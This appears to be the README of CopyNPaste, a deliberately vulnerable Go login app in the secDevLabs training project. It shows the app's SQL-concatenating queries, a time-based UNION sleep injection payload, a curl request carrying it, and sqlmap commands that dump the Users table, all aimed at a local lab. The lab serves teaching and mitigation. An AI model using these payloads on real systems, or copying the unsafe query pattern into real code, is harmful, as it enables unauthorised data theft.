






# CopyNPaste API


CopyNPaste is a Golang web application that uses an API and a simple front end to simulate a login page. It has both `/register` and `/login` routes that, by communicating with a MySQL database, enable users register and enter into a generic system.

## Index

- [Definition](#what-is-injection)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Injection?

Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

The main goal of this project is to discuss how **SQL Injection** vulnerabilities can be exploited and to encourage developers to send Pull Requests to secDevLabs on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a1/copy-n-paste
```

```sh
make install
```

Then simply visit [localhost:3000][App], as exemplified below:


## Get to know the app 💉

To properly understand how this application works, you can follow these simple steps:

- Register a new user via front-end.
- Login as this user via front-end.
* Register another user now using command line:
```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password", "passcheck":"password"}' http://localhost:3000/register
```
* Login as this second user now using command line:
```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password"}' http://localhost:3000/login

```

## Attack narrative

Now that you know the purpose of this app, what could possibly go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or it's users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Lack of input validation allows injection of SQL queries

After reviewing `NewUser()` , `CheckIfUserExists()` and `AuthenticateUser()` from [`db.go`]((https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a1/copy-n-paste/app/util/db.go#)) file, it was possible to see that some input from users are concatenated with SQL queries, as shown in the following code snippets:

```go
query := fmt.Sprint("select * from Users where username = '" + user + "'")

```

```go
query := fmt.Sprint("insert into Users (username, password) values ('" + user + "', '" + passHash + "')")
```

```go
query := fmt.Sprint("select username from Users where username = '" + username + "'")
```

As no validation is being made on these variables, SQL injections may be successfully executed in the database. Using the web interface, we can send some information, using the form from "inspect page", to better understand how it communicates with the API.



To confirm the input field is vulnerable, the following payload could be used to test if a 5 seconds delay will be noted after sending it:

```
-1' UNION select 1,2,sleep(5) --
```



Using `curl` on CLI interface, we can test it again, this time with a larger 30 seconds delay:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"-1'\'' union select 1,2,sleep(30) -- ", "pass":"password"}' http://127.0.0.1:3000/login
```

Request:



30 seconds later, thus confirming we can execute commands on the server:



#### 🔥

An attacker could now create any malicious SQL queries and send them to the API that, in theory, would be executed. For the purpose of this attack narrative, [sqlmap](https://github.com/sqlmapproject/sqlmap) will be used to exemplify how an automated SQL Injection attack may be performed.

To install sqlmap on a Mac you can simply type:

```sh
brew install sqlmap
```

The first possible step is to create a file, `postRequest.txt`, containing the HTTP POST itself, as shown in the following code:

```sh
POST /login HTTP/1.1
Host: 127.0.0.1:3000
User-Agent: curl/7.54.0
Accept: */*
Content-Type: application/json
Content-Length: 31

{"user":"user", "pass":"password"}
```

Before executing the attack, you can open a new tab in your terminal and type the following command to observe how the malicious requests will be received by the app:

```sh
docker logs a1_api -f
```

After that, we can now use `-r` option and wait for sqlmap to perform multiples malicious requests until it finds the vulnerable parameter:

```sh
sqlmap -r postRequest.txt
```



After understanding how this database is structured, an attacker could use the following command to retrieve database details:

```sh
sqlmap -r postRequest.txt --tables
```

And then retrieve sensitive information from it:

```sh
sqlmap -r postRequest.txt -D a1db -T Users --dump
```



## Secure this app

How could you now migitate this vulnerability? After your code modification, an attacker should not be able to:

* Run SQL queries in the database.

## PR solutions

[Spoiler alert] To understand how this vulnerability can be mitigated, check [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22CopyNPaste+API%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:3000
